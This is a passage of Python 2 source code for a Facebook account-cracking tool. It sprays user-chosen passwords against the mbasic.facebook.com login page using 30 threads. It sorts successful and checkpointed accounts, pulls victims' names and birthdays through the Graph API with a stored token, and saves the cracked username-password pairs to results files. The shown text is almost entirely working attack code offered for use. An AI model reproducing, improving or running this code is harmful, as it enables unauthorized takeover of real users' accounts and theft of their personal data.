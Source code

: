 				if 'mbasic_logout_button' in xo or 'save-device' in xo:
					print('\r  \033[0;92m* --> ' +uid+ '|' + pw + '       ')
					ok.append(uid+'|'+pw)
					save = open('results/OK-%s-%s-%s.txt' % (ha, op, ta),'a') 
					save.write('  * --> '+str(uid)+'|'+str(pw)+'\n')
					save.close()
					break
					continue
				if 'checkpoint' in xo:
					try:
						token = open('login.txt').read()
						url = ("https://graph.facebook.com/"+uid+"?access_token="+token)
						data = s.get(url).json()
						ttl = data['birthday'].replace("/","-")
						nama = data['name']
						print('\r  \033[0;93m* --> ' +uid+ '|' + pw + '|' + ttl)
						cp.append(uid+'|'+pw+'|'+ttl)
						save = open('results/CP-%s-%s-%s.txt' % (ha, op, ta),'a') 
						save.write('  * --> '+str(uid)+'|'+str(pw)+'|'+ttl+'\n')
						save.close()
						break
					except(KeyError, IOError):
						ttl = " "
					except:pass
					print('\r  \033[0;93m* --> ' +uid+ '|' + pw + '       ')
					cp.append(uid+'|'+pw)
					save = open('results/CP-%s-%s-%s.txt' % (ha, op, ta),'a') 
					save.write('  * --> '+str(uid)+'|'+str(pw)+'\n')
					save.close()
					break
					continue
					
			loop += 1
		except:
			pass
	p = ThreadPool(30)
	p.map(main, id)
	exit("\n \033[0;97m[\033[0;96m#\033[0;97m] Selesai")

def manual():
	print(" \033[0;97m[\033[0;93m*\033[0;97m] Contoh : bismillah,123456,indonesia")
	pw = raw_input(" \033[0;97m[\033[0;93m?\033[0;97m] Buat Password : ")
	print("\n \033[0;97m[\033[0;93m*\033[0;97m] Crack Dengan Password : \033[0;91m%s"%(pw))
	if len(pw) ==0:
		exit(" \033[0;97m[\033[0;91m!\033[0;97m] Don't Be Empty")
	print(" \033[0;97m[\033[0;96m+\033[0;97m] Account \033[0;92mOK\033[0;97m Saved In : results/OK-%s-%s-%s.txt"% (ha, op, ta))
	print(" \033[0;97m[\033[0;96m+\033[0;97m] Account \033[0;93mCP\033[0;97m Saved In : results/CP-%s-%s-%s.txt\n"% (ha, op, ta))
	
	def main(user):
		global loop, token
		sys.stdout.write('\r \033[0;97m[\033[0;93m*\033[0;97m] Cracking %s/%s OK-:%s - CP-:%s ' % (loop, len(id), len(ok), len(cp))
		); sys.stdout.flush()
		uid,name=user.split("<=>")
		ss = name.split(" ")
		try:
			os.mkdir('results')
		except OSError:
			pass
		try:
			for asu in pw.split(","):
				rex = requests.post('https://mbasic.facebook.com/login.php', data={'email': uid, 'pass': asu, 'login': 'submit'}, headers={'user-agent': ua})